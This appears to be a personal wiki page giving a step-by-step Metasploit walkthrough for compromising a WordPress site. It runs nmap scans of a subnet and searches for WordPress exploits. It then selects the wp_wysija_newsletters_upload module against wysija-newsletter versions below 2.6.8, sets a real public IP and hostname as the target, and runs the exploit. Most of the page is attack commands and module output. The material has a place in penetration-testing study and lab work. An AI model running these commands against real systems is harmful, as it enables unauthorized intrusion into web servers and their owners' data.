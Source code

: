 # WordPress

## Identify a Remote Host

```bash
msf > db_nmap -v -sV 192.168.111.xxx
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/575CF62D4C7E18CFD40566EA08E7D588.png)

### Scan an Entire Network

-   This will save the results to the metasploit database

```bash
msf > nmap -v -sV 192.168.111.0/24 -oA subnet_1
```

-   `hosts` will list all the hosts found by `nmap`.
-   `hosts -R` will add them to the list of hosts to exploit.

## Searching for a WordPress Vulnerability

```bash
msf > search name:wordpress
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/A9D412A6F8C5F3485B429E2EA41D4CB9.png)

## Use an Exploit

-   This will select an exploit to use:

```bash
msf > use exploit/unix/webapp/wp_wysija_newsletters_upload
```

-   This will show you the attacks that the exploit will take advantage of:

```bash
msf exploit(wp_wysija_newsletters_upload) > show payloads
```

![pentest-env-kali-rolling\_\_Running\_.png](https://github.com/myles/wiki/tree/f372daac5c55e94c0709618731da62eceb4e6a76/pentesting/resources/67A7D5964C96C63BA11EEA707CB4A604.png)

-   This will show what software and version will be targeted:

```bash
msf exploit(wp_wysija_newsletters_upload) > show targets
```

```text
Exploit targets:

    Id  Name
    --  ----
    0   wysija-newsletter < 2.6.8
```

## Next configure the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > show options
```

```text
Module options (exploit/unix/webapp/wp_wysija_newsletter_upload):

    Name        Current Settings    Required    Description
    ----        ----------------    --------    -----------
    Proxies                         no          A proxy chain of format type:host:port[,type:host:port][...]
    RHOST                       no          The target address
    RPORT       80                  yes         The target port
    SSL         false               no          Negotiate SSL/TLS for outgoing connections
    TARGETURI   /                   no          The base path to the wordpress application
    VHOST                           no          HTTP server virtual host

Exploit target:

    Id  Name
    --  ----
    0   wysija-newsletters < 2.6.8
```

-   Here is where we set all the options:

```bash
msf exploit(wp_wysija_newsletters_upload) > set RHOST 159.203.19.77
msf exploit(wp_wysija_newsletters_upload) > set RPORT 443
msf exploit(wp_wysija_newsletters_upload) > set SSL true
msf exploit(wp_wysija_newsletters_upload) > set VHOST myles.life
```

## Run the Exploit

```bash
msf exploit(wp_wysija_newsletters_upload) > exploit
```
